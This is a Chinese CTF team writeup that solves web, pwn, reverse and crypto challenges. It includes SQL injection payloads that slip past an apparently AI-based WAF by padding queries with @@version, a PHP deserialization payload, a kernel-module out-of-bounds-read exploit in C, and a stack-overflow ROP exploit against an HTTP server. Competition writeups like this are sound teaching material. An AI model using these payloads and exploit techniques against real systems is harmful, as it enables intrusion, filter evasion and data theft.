# FTC.sh 战队 Writeup

## 一、战队信息

- 战队名称：FTC.sh
- 战队排名：94

## 二、解题情况



## 三、解题过程

### 3 AI_WAF

网页script看见一个/search接口，直接去/search 接口搞。

```json
{
  "query" : "'||1=1"
}
```

出了这个表里的所有内容，没flag，应该在其他表里

在尝试如下请求时，发现confidence比单独一个concat要小

```json
{
  "query" : "' show tables like concat('%', @@version,'%')#"
}
```

排查发现@@version导致confidence减小，多插了几个发现居然绕过了，于是发现只要在#号后面插入很多@@version就能执行任意命令。

order by 4的时候报错，说明**查询列数**为3


看回显：

```sql
' union select 1,2,3#@@version@@version@@version@@version@@version@@version@@version
```



2和3回显，看库名：

```sql
' union select 1,database(),3#@@version@@version@@version@@version@@version@@version@@version@@version@@version
```



库名为 nexadata，看表名：

```sql
' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema LIKE database()#@@version@@version@@version@@version@@version@@version@@version@@version@@version@@version@@version@@version@@version
```


获得表名`where_is_my_flagggggg`，看列名：

```sql
' union select 1,group_concat(column_name),3 from information_schema.columns where table_name LIKE 'where_is_my_flagggggg'#@@version@@version@@version@@version@@version@@version@@version@@version@@version@@version@@version@@version@@version
```


获得列名`Th15_ls_f149`，看内容：

```sql
' UNION SELECT 1,GROUP_CONCAT(Th15_ls_f149),3 FROM where_is_my_flagggggg#@@version@@version@@version@@version@@version@@version@@version@@version@@version
```



获得flag：`flag{c0e9eb36-4b7a-4094-b810-3a0beeebaaa3}`

***

### 8 hellogate

图片后有 php 代码，反序列化一把梭：

```php
<?php
class A {
    public $handle;
}

class B {
    public $worker;
    public $cmd;
}

class C {
    public $cmd;
}

$a = new A();
$b = new B();
$c = new C();

$target_file = '/flag';

$c->cmd = 'php://filter/convert.base64-encode/resource=' . $target_file;
$b->worker = $c;
$a->handle = $b;

$payload = serialize($a);

echo urlencode($payload) . "\n\n";
```




***

### 10 redjs

猜测为最新的react cve洞，直接用工具一把梭了。





得到flag为`flag{edcedd2f-fd5c-4912-aa39-9e812faf7500}`

***

### 14 ram_snoop

## Ram_snoop

解包 rootfs 后查看 /init：
insmod /home/babydev.ko
chmod 777 /dev/noc /tmp
cp /proc/kallsyms /tmp/coresysms.txt
/home/eatFlag &
exec /bin/sh
// 远程：exec su -s /bin/sh ctf

看到有一个内核模块和一个用户态程序k
/home/babydev.ko（创建设备 /dev/noc 并放权）
/home/eatFlag（读入 flag 后删除文件）

eatFlag把flag从文件中放到内存里，然后一直循环，保证heap内存中的flag一直在。
审计一下 babydev.ko 模块，发现它注册了一个字符设备 noc. device_create(..., "noc") -> /dev/noc，在write末尾有漏洞：

```
*a4 += v6;                          // f_pos += 写入长度
*(u64*)(global_buf + 0x10008) += v6; // tail += 写入长度
```

tail没有上界，且不随实际写入位置变化，即使一直 lseek 回 0 覆盖写，tail 仍然单调增长。如果反复写满 0x10000 并把 f_pos 复位，写入永远覆盖 0..0xFFFF 这块区域，但是 tail 会一直加：0x10000、0x20000、0x30000… 然后limit 被抬高为几十 MB。之后就能lseek(fd, huge_offset, SEEK_SET) 通过检查，read(fd, ...) 从 global_buf + huge_offset 读数据。然后就构造出了向后线性越界的任意长度 OOB read 原语。
下面可以这么利用：lseek(fd, 0, SEEK_SET)；write(fd, 0x10000 bytes)

重复 1024 轮，tail会一直增长到1024 * 0x10000 = 64MB；limit = tail - base ≈ 64MB这样我们就能把 f_pos seek 到 64MB 范围内任意位置，并读出对应内存。 x86_64 Linux，用户态页在内核中有 direct-map 映射。题目设计让我们通过内核模块的 OOB 读，从某个内核对象后的连续映射区读到系统里其它页。从 off = 0x20000 起扫，每次读 0x1000，找 flag{ ，命中后再往附近 dump 几百字节。然后写exp.c去使用这个内核模块：

```c
...
static void die(const char *s) {
  perror(s);
  _exit(1);
}

static int is_printable(unsigned char c) {
  return (c >= 0x20 && c <= 0x7e);
}

static int match_prefix(const unsigned char *p, int n, const unsigned char *sig, int m) {
  if (n < m) return 0;
  for (int i = 0; i < m; i++) {
    if (p[i] != sig[i]) return 0;
  }
  return 1;
}

static int validate_and_print(int fd, uint64_t abs_off) {
  unsigned char dump[0x200];
  if (lseek(fd, (off_t)abs_off, SEEK_SET) < 0) return 0;
  ssize_t dn = read(fd, dump, sizeof(dump));
  if (dn <= 0) return 0;

  int end = -1;
  int limit = (dn > 128) ? 128 : (int)dn;
  for (int i = 0; i < limit; i++) {
    if (dump[i] == '}') { end = i; break; }
  }
  if (end < 0) return 0;

  int bad = 0;
  for (int i = 0; i <= end; i++) {
    if (!is_printable(dump[i])) bad++;
  }
  if (bad > 4) return 0;

  // 输出候选
  printf("[+] candidate @ 0x%lx : ", abs_off);
  fwrite(dump, 1, end + 1, stdout);
  putchar('\n');
  return 1;
}

int main() {
  int fd = open("/dev/noc", O_RDWR);
  unsigned char info[40];
  memset(info, 0, sizeof(info));
  if (ioctl(fd, CMD_LEAK_GBUF, info) >= 0) {
    uint64_t gbuf = *(uint64_t *)(info + 0x20);
    printf("[+] global_buf = 0x%lx\n", gbuf);
  }

  // inflate tail
  const size_t W = 0x10000;
  unsigned char *wbuf = (unsigned char*)malloc(W);
  if (!wbuf) die("malloc wbuf");
  memset(wbuf, 'A', W);

  int rounds = 1024;
  printf("[*] inflating tail: %d rounds\n", rounds);
  for (int i = 0; i < rounds; i++) {
    if (lseek(fd, 0, SEEK_SET) < 0) die("lseek 0");
    if (write(fd, wbuf, W) < 0) die("write");
    if ((i & 0x7f) == 0) printf("    round %d\n", i);
  }
  free(wbuf);

  // 运行时拼 signature，避免二进制里出现 "flag{" 字面量
  unsigned char sig1[5] = { 'f','l','a','g','{' };
  unsigned char sig2[4] = { 'c','t','f','{' };
  unsigned char sig3[5] = { 'F','L','A','G','{' };

  const size_t R = 0x1000;
  unsigned char rbuf[R];

  uint64_t start = 0x20000;
  uint64_t end   = 0x20000 + 0x8000000;
  printf("[*] scanning off=0x%lx..0x%lx\n", start, end);

  int hits = 0;
  const int MAX_HITS = 20;

  for (uint64_t off = start; off < end; off += R) {
    lseek(fd, (off_t)off, SEEK_SET);
    ssize_t n = read(fd, rbuf, R);
    if (n < 0) die("read scan");
    if (n == 0) continue;

    for (ssize_t i = 0; i < n; i++) {
      int rem = (int)(n - i);
      const unsigned char *p = rbuf + i;

      int ok =
        match_prefix(p, rem, sig1, 5) ||
        match_prefix(p, rem, sig2, 4) ||
        match_prefix(p, rem, sig3, 5);

      if (!ok) continue;

      uint64_t abs = off + (uint64_t)i;
      if (validate_and_print(fd, abs)) {
        hits++;
        if (hits >= MAX_HITS) {
          printf("[*] reach MAX_HITS=%d, stop.\n", MAX_HITS);
          return 0;
        }
      }
    }
  }
}
```

然后把程序编译好，base64处理，然后逐批复制到远程，最后base64解密执行，dump出flag：


***

### 15 mini_httpd

setmode栈溢出，然后getmode读栈上数据泄露libc，然后做ROP，做类似ORW的内容，让httpd server发带有flag的packet即可。


exp:

```python
class ExploitClient:
    def __init__(self, ip, port, libc_path="./libc.so.6"):
        self.host = ip
        self.port = port
        self.libc = ELF(libc_path)
        self.cfg = {
            'target': 0x406360,
            'bss_buffer': 0x406020,
            'offset_magic': 0x70ba34044000 - 0x70ba3403f557
        }

    def _execute_http_request(self, path, payload):
        conn = remote(self.host, self.port)
        header = (
            f"POST /{path} HTTP/1.1\r\n"
            f"Host: {self.host}:{self.port}\r\n"
            f"Content-Length: {len(payload)}\r\n"
            f"Connection: close\r\n\r\n"
        ).encode()
        
        conn.send(header + payload)
        res = conn.recvall()
        conn.close()
        return res

    def leak_base(self):
        filler = b"A" * 22
        tag = b"setmode\x00"
        padding = b"A" * (0x440 - 8 - 22 - 8)
        
        trigger = b"setmode=" + filler + tag + padding
        self._execute_http_request("setmode", trigger)
        
        raw_data = self._execute_http_request("getmode", b"getmode")
        leak_ptr = raw_data[0x46d: 0x500][0x10:0x18]
        addr = u64(leak_ptr)
        self.base = addr + self.cfg['offset_magic']
        success(f"Discovered Libc Base: {hex(self.base)}")
        return self.base

    def launch_attack(self):
        b = self.base
        gadgets = {
            'rdi': b + 0x23b6a,
            'rsi': b + 0x2601f,
            'rax_rdx_rbx': b + 0x15fae5,
            'write_mem': b + 0x9ef3a,
            'syscall': b + 0x2284d
        }

        chain = [
            gadgets['rdi'], self.cfg['bss_buffer'],
            gadgets['rsi'], b"/flag".ljust(8, b"\x00"),
            gadgets['write_mem'],
            gadgets['rsi'], 0,
            b + self.libc.sym["open"],
            gadgets['rsi'], self.cfg['target'],
            gadgets['rax_rdx_rbx'], 0, 0x40, 0,
            gadgets['rdi'], 6,
            b + self.libc.sym["read"],
        ]
        
        rop_payload = b"".join([p64(x) if isinstance(x, int) else x for x in chain])
        
        final_payload = b"setmode=" + b"A"*22 + b"setmode\x00" + b"A"*1066
        final_payload += p64(self.cfg['bss_buffer'] + 0x400) + rop_payload
        
        io = remote(self.host, self.port)
        final_http = (
            f"POST /setmode HTTP/1.1\r\n"
            f"Content-Length: {len(final_payload)}\r\n\r\n"
        ).encode() + final_payload
        
        io.send(final_http)
        io.interactive()


TARGET_IP =
TARGET_PORT =

exp = ExploitClient(TARGET_IP, TARGET_PORT)
exp.leak_base()
exp.launch_attack()
```


***

### 19 babygame

GDRE 直接解包，没加密。看一下`game_manager.gd`和`flag.gd`拿到密文和密钥直接解密即可



***

### 20 wasm-login

爆破 Payload 如下：

```js
import { authenticate } from './build/release.js';
import crypto from 'crypto';

// 目标 MD5 前缀
const TARGET_PREFIX = "ccaf33e3512e31f3";

// 原始 Date.now 备份
const originalDateNow = Date.now;

function check(timestamp) {
    // Mock Date.now
    Date.now = () => timestamp;

    try {
        const username = "admin";
        const password = "admin";
        
        // 调用 WASM
        const authResult = authenticate(username, password);
        
        // 模拟前端逻辑: JSON.parse -> JSON.stringify -> MD5
        // 前端代码: const check = CryptoJS.MD5(JSON.stringify(data)).toString(CryptoJS.enc.Hex);
        // 其中 data = JSON.parse(authResult)
        const data = JSON.parse(authResult);
        const jsonString = JSON.stringify(data);
        
        const md5 = crypto.createHash('md5').update(jsonString).digest('hex');
        
        if (md5.startsWith(TARGET_PREFIX)) {
            return { success: true, md5, jsonString };
        }
    } catch (e) {
        // ignore errors
    }
    return { success: false };
}

async function run() {
    console.log("开始爆破...");
    
    // 设置搜索的时间范围
    // 这里默认设置为当前日期的全天，请根据实际线索调整
    // 2025-12-28
    const startStr = "2025-12-21T16:29:10.699Z";
    const endStr = "2025-12-22T06:59:59.999Z";
    
    const startTime = new Date(startStr).getTime(); 
    const endTime = new Date(endStr).getTime();
    
    console.log(`范围: ${startStr} (${startTime}) - ${endStr} (${endTime})`);
    
    let found = false;
    
    // 步长：1ms
    for (let t = startTime; t <= endTime; t = t + 1) {
        if ((t - startTime) % 100000 === 0) {
            process.stdout.write(`\r进度: ${((t - startTime) / (endTime - startTime) * 100).toFixed(2)}% (当前: ${t})`);
        }
        
        const result = check(t);
        if (result.success) {
            process.stdout.write('\n');
            console.log("Found!");
            console.log(`Timestamp: ${t}`);
            console.log(`Date: ${new Date(t).toISOString()}`);
            console.log(`MD5: ${result.md5}`);
            console.log(`Data: ${result.jsonString}`);
            found = true;
            break;
        }
    }
    
    if (!found) {
        console.log("\n未找到匹配的时间戳。请尝试调整时间范围。");
    }
    
    // 恢复环境
    Date.now = originalDateNow;
}

run().catch(err => console.error(err));
```

***

### 22 ECDSA

私钥不是随机的，而是直接由固定字符串“Welcome to this challenge!”的 SHA-512 值转成整数后（在 NIST P-521 的阶上取模）得到的。由于 P-521 的阶大约是 $2^{521}$，而 SHA-512 的输出只有 $2^{512}$，因此“取模”不改变数值；最终私钥就是这串 SHA-512 的结果，按大端补到 66 字节作为私钥字节串使用。因此要算“私钥的 MD5”，就对这 66 字节的私钥做 MD5 即可。

```python
#!/usr/bin/env python3
import hashlib
from Crypto.Util.number import long_to_bytes
from ecdsa import NIST521p

m = b"Welcome to this challenge!"
digest = hashlib.sha512(m).digest()
n = NIST521p.order
priv_int = int.from_bytes(digest, "big") % n
priv_bytes = long_to_bytes(priv_int, 66) 

print("md5(dec_string)=", hashlib.md5(str(priv_int).encode()).hexdigest())
```



***

### 23 EzFlag

逆向可得是跟斐波那契数列相关的函数，如果直接运行 EzFlag 会因为 v11 爆炸增长，但因为周期是 24 所以 v11 模 24 即可，Payload 如下：

```python
K = "012ab9c3478d56ef"

def f(a1):
    fibonacci = [0, 1, 1, 2, 3, 5, 8, 13, 5, 2, 7, 9, 0, 9, 9, 2, 11, 13, 8, 5, 13, 2, 15, 1]
    index = fibonacci[a1 % 24]  
    return K[index]

v11 = 1
flag_chars = []
for i in range(32):
    v9 = f(v11)
    flag_chars.append(v9)
    if i == 7 or i == 12 or i == 17 or i == 22:
        flag_chars.append('-')
    v11 = v11 * 8 + (i + 64)
    v11 &= 0xFFFFFFFFFFFFFFFF

flag = "flag{" + ''.join(flag_chars) + "}"
print(f"Flag: {flag}")
```


***

### 24 RSA_NestingDoll

题目生成 4 个 1024 位素数  $p,q,r,s$，使得 $p−1$ 含有一个大因子 $p_1$，且其余因子均 $\leq 2^{20}$，同理 $q−1$ 含 $q_1$，$r−1$ 含 $r_1$，$s−1$ 含 $s_1$

外层模数 $n=pqrs$，因此 $\phi(n)=(p−1)(q−1)(r−1)(s−1)=n1·S$，其中 $S$ 完全由小素数构成

我们可以构造一个已知的 $\phi(n)$ 的倍数 $T=n_1·M$，其中 $M$  取所有 $\leq 2^{20}$ 的素数的乘积（或其最大幂的最小公倍数），于是  $T$  一定是 $λ(n)$ 的倍数，可以用反复平方法在不需要分解 $n$ 的前提下直接分解 $n$

分解出 $p,q,r,s$ 后，内层的大素数就能通过 $\gcd(p−1,n_1)$、$\gcd(q−1,n_1)$ 得到 $p_1,q_1,r_1,s_1$ ，即可求 $\phi(n_1)=(p_1−1)(q_1−1)(r_1−1)(s_1−1)$，从而解出 $m=c^{d_1}\text{ mod }n_1$

```python
from Crypto.Util.number import *
from math import isqrt
from random import randrange

n1 = 16141229822582999941795528434053604024130834376743380417543848154510567941426284503974843508505293632858944676904777719167211264225017879544879766461905421764911145115313698529148118556481569662427943129906246669392285465962009760415398277861235401144473728421924300182818519451863668543279964773812681294700932779276119980976088388578080667457572761731749115242478798767995746571783659904107470270861418250270529189065684265364754871076595202944616294213418165898411332609375456093386942710433731450591144173543437880652898520275020008888364820928962186107055633582315448537508963579549702813766809204496344017389879
n  = 484831124108275939341366810506193994531550055695853253298115538101629337644848848341479419438032232339003236906071864005366050185096955712484824249228197577223248353640366078747360090084446361275032026781246854700074896711976487694783856878403247312312487197243272330518861346981470353394149785086635163868023866817552387681890963052199983782800993485245670437818180617561464964987316161927118605512017355921555464359512280368738197370963036482455976503266489446554327046948670215814974461717020804892983665655107351050779151227099827044949961517305345415735355361979690945791766389892262659146088374064423340675969505766640604405056526597458482705651442368165084488267428304515239897907407899916127394598273176618290300112450670040922567688605072749116061905175316975711341960774150260004939250949738836358264952590189482518415728072191137713935386026127881564386427069721229262845412925923228235712893710368875996153516581760868562584742909664286792076869106489090142359608727406720798822550560161176676501888507397207863998129261472631954482761264406483807145805232317147769145985955267206369675711834485845321043623959730914679051434102698588945009836642922614296598336035078421463808774940679339890140690147375340294139027290793
c  = 657984921229942454933933403447729006306657607710326864301226455143743298424203173231485254106370042482797921667656700155904329772383820736458855765136793243316671212869426397954684784861721375098512569633961083815312918123032774700110069081262242921985864796328969423527821139281310369981972743866271594590344539579191695406770264993187783060116166611986577690957583312376226071223036478908520539670631359415937784254986105845218988574365136837803183282535335170744088822352494742132919629693849729766426397683869482842748401000853783134170305075124230522253670782186531697976487673160305610021244587265868919495629
e  = 65537

def primes_upto(limit):
    limit = int(limit)
    sieve = bytearray(b'\x01') * (limit + 1)
    sieve[0:2] = b'\x00\x00'
    for p in range(2, isqrt(limit) + 1):
        if sieve[p]:
            step = p
            start = p * p
            sieve[start:limit+1:step] = b'\x00' * (((limit - start)//step) + 1)
    return [i for i in range(2, limit+1) if sieve[i]]

PRIME_BOUND = 1 << 20
PRIMES = primes_upto(PRIME_BOUND)
ODD_PRIMES = [p for p in PRIMES if p & 1]

def factor_one(n, n1, trials=64):
    while trials > 0:
        trials -= 1
        a = randrange(2, n-1)
        g = GCD(a, n)
        if 1 < g < n:
            return g
        x = pow(a, n1, n)
        for p in ODD_PRIMES:
            x = pow(x, p, n)
        if x == 1 or x == n-1:
            continue
        y = x
        while True:
            z = pow(y, 2, n)
            if z == 1:
                d = GCD(y - 1, n)
                if 1 < d < n:
                    return d
                else:
                    break
            if z == n - 1:
                break
            y = z
    return None

def factor_n(n, n1):
    if isPrime(n):
        return [n]
    while True:
        d = factor_one(n, n1)
        if d is None or d == 1 or d == n:
            continue
        left = factor_n(d, n1)
        right = factor_n(n // d, n1)
        return left + right

factors = factor_n(n, n1)
factors.sort()
print("[*] factors of n:", [hex(x) for x in factors])

inner_primes = []
tmp = n1
for P in factors:
    t = GCD(P - 1, n1)
    if t > 1:
        inner_primes.append(t)
        tmp //= t
assert len(inner_primes) == 4 and tmp == 1
inner_primes.sort()
print("[*] inner primes:", [hex(x) for x in inner_primes])

phi_n1 = 1
for pr in inner_primes:
    phi_n1 *= (pr - 1)
d1 = inverse(e, phi_n1)
m = pow(c, d1, n1)

pt = long_to_bytes(m, 256)
print(pt)
start = pt.find(b'flag{')
if start != -1:
    end = pt.find(b'}', start)
    if end != -1:
        print("FLAG =", pt[start:end+1].decode(errors='ignore'))
```


***

### 25 SnakeBackdoor-1

过滤条件 http.request.method == "POST"，看到最后一个 /admin/login 包，跟随 HTTP 流可以看到有 302，那么这个爆破的就是密码：

